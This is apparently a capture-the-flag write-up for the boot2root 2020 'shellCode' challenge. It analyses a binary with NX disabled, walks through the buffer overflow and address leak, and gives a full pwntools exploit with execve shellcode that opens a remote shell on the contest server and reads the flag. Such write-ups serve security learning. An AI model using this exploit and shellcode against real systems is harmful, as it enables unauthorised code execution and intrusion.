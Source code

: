 # boot2root 2020

## shellCode

> 477
>
> babies love shell legends love shellcode
>
> `nc 35.238.225.156 1006`
>
> Author: TheBadGuy
> 
> [shellcode](shellcode)

Tags: _pwn_ _x86-64_ _remote-shell_ _bof_ _rop_


## Summary

Shellcode in a tight spot.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

No canary, has RWX segments, NX disabled screams shellcode.  Why bother with PIE?


### Decompile with Ghidra

```c
undefined8 main(void)
{
  undefined8 local_18;
  undefined8 local_10;
  
  local_18 = 0;
  local_10 = 0;
  setvbuf(stdout,(char *)0x0,1,0);
  puts("Amigo\'s I welcome you to the boot2root server");
  printf("Wait did I say something I wasnt supposed to[%p] ?\n",&local_18);
  puts("Okay Waiting for the answer now");
  read(0,&local_18,0x40);
  return 0;
}
```

`main` leaks the address of buffer `local_18` that is `0x18` (24) bytes from the return address, then `read`s up to `0x40` (64) bytes that allows `local_18` to overflow the return address and then some.

If you can find or create shellcode in 24 bytes that also will not get messed up with pop/push from the stack (happens), then go for it.  Otherwise, there's the roomier 32 bytes (64(`read`) - 24(`local_18`) - 8(return address)) after the return address that is also less likely to get clobbered with pop/push.

I went with the roomer option.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./shellcode')

if args.REMOTE:
    p = remote('35.238.225.156', 1006)
else:
    p = process(binary.path)

p.recvuntil('supposed to[')
_ = p.recvuntil(']')
buff = int(_[:-1],16)
log.info('buff: ' + hex(buff))

# http://shell-storm.org/shellcode/files/shellcode-905.php
# 29 bytes
shellcode  = b''
shellcode += b'\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf'
shellcode += b'\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54'
shellcode += b'\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'

payload  = b''
payload += 0x18 * b'A'
payload += p64(buff + 0x18 + 8)
payload += shellcode

p.sendafter('answer now\n',payload)
p.interactive()
```

First, capture the buffer leak (address of `local_18`).

Next, find (or create) some shellcode < 32 bytes--easy.

For the payload just write out `0x18` bytes to get to the return address in the stack (`local_18` is `0x18` (24) bytes from the return address), then change the return address to the address below it (`buff + 0x18` gets you to return address, add `8` for the next stack line), then, our shellcode.

On "return", the stack pointer will bump down to our shellcode and give us a shell.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/boot2root2020/shellcode/shellcode'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to 35.238.225.156 on port 1006: Done
[*] buff: 0x7fff7cc19470
[*] Switching to interactive mode
$ id
sh: 1: id: not found
$ ls -l
total 44
drwxr-x--- 1 0 1000  4096 Dec  6 14:16 bin
drwxr-x--- 1 0 1000  4096 Dec  6 14:16 dev
-rwxr----- 1 0 1000    23 Dec  6 15:31 flag
drwxr-x--- 1 0 1000  4096 Dec  6 14:16 lib
drwxr-x--- 1 0 1000  4096 Dec  6 14:16 lib32
drwxr-x--- 1 0 1000  4096 Dec  6 14:16 lib64
-rwxr-x--- 1 0 1000 16800 Dec  6 15:31 shellcode
$ cat flag
b00t2root{sehllz_c0de}
```
